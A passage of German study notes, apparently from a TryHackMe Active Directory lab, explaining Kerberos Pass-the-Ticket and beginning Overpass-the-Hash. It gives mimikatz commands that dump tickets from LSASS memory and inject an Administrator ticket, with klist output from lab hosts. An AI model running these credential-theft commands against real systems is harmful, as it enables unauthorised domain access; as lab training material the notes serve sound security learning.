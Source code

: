 Das TGS Ticket wird nun an den Service geschickt, auf den man zugreifen möchte. Der Service entschlüsselt das TGS und validiert den Service Session Key, mit dem Username und zeitstempel bei der Anfrage verschlüsselt wurden.

### Pass-the-Ticket

Manchmal ist es möglich, Kerberos Tickets und Session Keys aus dem LSASS Memory zu extrahieren. Dieser Vorgang benötigt ind er Regel SYSTEM Rechte auf der Maschine. Folgende Befehle werden ausgeführt:

```bash
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```

**Achtung: Wenn wir nur Zugriff auf ein Ticket haben, aber nicht auf den dazugehörigen Session Key, können wir das Ticket nicht nutzen. Beide Dinge sind nötig**

Mimikatz kann im Prinzip jedes TGT oder TGS welches im Speicher des LSASS Prozesses befindet extrahieren, aber meistens interessieren uns TGT´s mit denen wir Zugang zu Services erhalten, zu denen der User berechtigt ist. Gleichzeitig sind TGS´s nur für besitmmte Service gut. Zum extrahieren von TGT´s benötigen wir Admin Zugangsdaten, bei TGS´s reichen schon Low-Privilege Accounts.

Sobald wir das gewünschte Ticket haben, können wir es in unsere aktuelle Session injezieren.

>mimikatz # kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi

Um Tickets in unsere eigene Session zu injezieren, benötigen wir keine Administrationsrechte. Danach steht das Ticket für jedes Tool zur Verfügung, mit dem wir Lateral Movement betreiben können. Um zu checken, ob das injezierte Ticket auch richtig funktioniert, können wir *klist* ausführen:

```bash
za\bob.jenkins@THMJMP2 C:\> klist

Current LogonId is 0:0x1e43562

Cached Tickets: (1)

#0>     Client: Administrator @ ZA.TRYHACKME.COM
        Server: krbtgt/ZA.TRYHACKME.COM @ ZA.TRYHACKME.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 4/12/2022 0:28:35 (local)
        End Time:   4/12/2022 10:28:35 (local)
        Renew Time: 4/23/2022 0:28:35 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: THMDC.za.tryhackme.com
```

### Overpass-the-Hash / Pass-the-Key

Diese Art von Attacke ist ähnlich Pass-the-Hash, allerdings auf das Kerberos Netzwerk angewendet.

Wenn ein Benutzer ein TGT anfragt, sendet dieser ja einen Zeitstempel verschlüsselt mit dem Schlüssel der sich aus seinem Passwort ergibt. Der Algorithmus der diesen Schlüssel aus dem Passwort ableitet ist entweder DES (bei aktuellen Windows Systemen standardmäßig deaktiviert), RC4, AES128 oder AES256, je nach installierter Windows Version und Kerberos Konfiguration. Wenn wir einen solchen Schlüssel besitzen, können wir bei KDC ein TGT anfragen ohne das aktuelle Passwort zu kennen. Das ist die Pass-the-Key Attacke. 
